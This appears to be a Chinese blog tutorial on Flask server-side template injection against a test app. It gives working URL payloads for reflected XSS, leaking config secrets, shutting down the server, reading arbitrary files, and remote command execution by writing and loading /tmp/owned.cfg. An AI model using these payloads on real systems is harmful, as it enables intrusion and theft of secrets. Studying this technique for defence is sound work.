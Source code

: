 ```yaml
---
layout: post
title: flask-ssti注入
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[源代码地址](https://github.com/ZhangAiQiang/Flask/tree/master/flask-session%E8%BA%AB%E4%BB%BD%E4%BC%AA%E9%80%A0%E7%AE%80%E5%8D%95%E6%BA%90%E7%A0%81)  (请用python2.7运行，python3有点出入)
  
# **注入点:**     

![](https://i.imgur.com/BjpRspN.png)  

不是返回的静态模板而是反回模板字符串变得让客户端可以控制。  
  
# **XSS**   #
  
这里直接http://39.105.116.195:9000/<script>alert(1)</script>就会有反射性XSS  

flask对模板文件和模板文件中内容进行转义,可如果直接返回模板字符串或者直接返回字符串的话是不会转义的:  


  
![](https://i.imgur.com/AlrT7iT.png)  

只有xss1不会弹框，因为传到了静态文件里面，flask会自动进行转义。  

# **注入测试**   

http://39.105.116.195:9000/{{1+1}}  发现回传的是"/2"存在注入点。  

![](https://i.imgur.com/ls9zH4o.png) 

存在注入。  

# **config** #
 
flask的一个内置全局变量，保存着一些很隐私的信息。  

![](https://i.imgur.com/76P4EX0.png)  

比如SECRET_KEY，就可以session伪造用户。还有数据库连接的信息，就知道了数据库的密码。    

这个是个字典，也可以这样调用某个值
> http://39.105.116.195:9000/{{config['SECRET_KEY']}}  

# **request** 
类似于config，保存着一些信息。**request.environ**是一个字典，其中包含和服务器环境相关的对象  

![](https://i.imgur.com/domxsHz.png)  

>     http://39.105.116.195:9000/{{request.environ['werkzeug.server.shutdown']()}}这个会让服务器停止运行python，但是在gunicorn环境下中不会。  

# **config的from_object方法** #

{{ config.from_object('os') }}通过这个方法，config属性里面多了os(这是举个例子，其他的库自己也可以试试)库里面名字全是大写的属性和变量，而且是可以直接调用。  
  

# **几个重要的属性**  

![](https://i.imgur.com/AZFDkgb.png)  
运行结果  

![](https://i.imgur.com/qVopj2E.png)
  
# **任意文件读取** #
![](https://i.imgur.com/uApeB1u.png)  

>     ""根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。  



# **远程代码执行利用from_pyfile** #

将一个文件的路径传进去然后编译，这样我们结合file的写功能就可以在指定的位置写文件，然后用from_pyfile编译。    

**写入指令print(1+1)**

![](https://i.imgur.com/wYQ0Skk.png)    
  
**pyfile来编译执行，返回TRUE执行成功。**


![](https://i.imgur.com/udhMvsj.png)  
 
## 还有一种是不用每次写文件，写一次，然后每次只传入命令就好。  

>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\rRUNCMD = check_output') }}   

参考[文章](http://www.anquan.us/static/drops/tips-13683.html)的时候,他是\n\r，可能是mac本，不管了，服务器一般用linux，\n\r写入回车就好了。还有一个需要注意的是，如果你是直接在浏览器上输入反斜杠的话会给你编码为/，所以会编译失败(因为没有回车)，url编码一下就好了%5cn%5cr  
    
>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output%5cn%5crRUNCMD = check_output') }},另外的话如果用burp抓包发送是不需要考虑编码的。

**编译**  

>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

**命令执行:**
  
>     http://39.105.116.195:9000/{{ config['RUNCMD']('ls /',shell=True)}}  

  
![](https://i.imgur.com/i5R1Iod.png)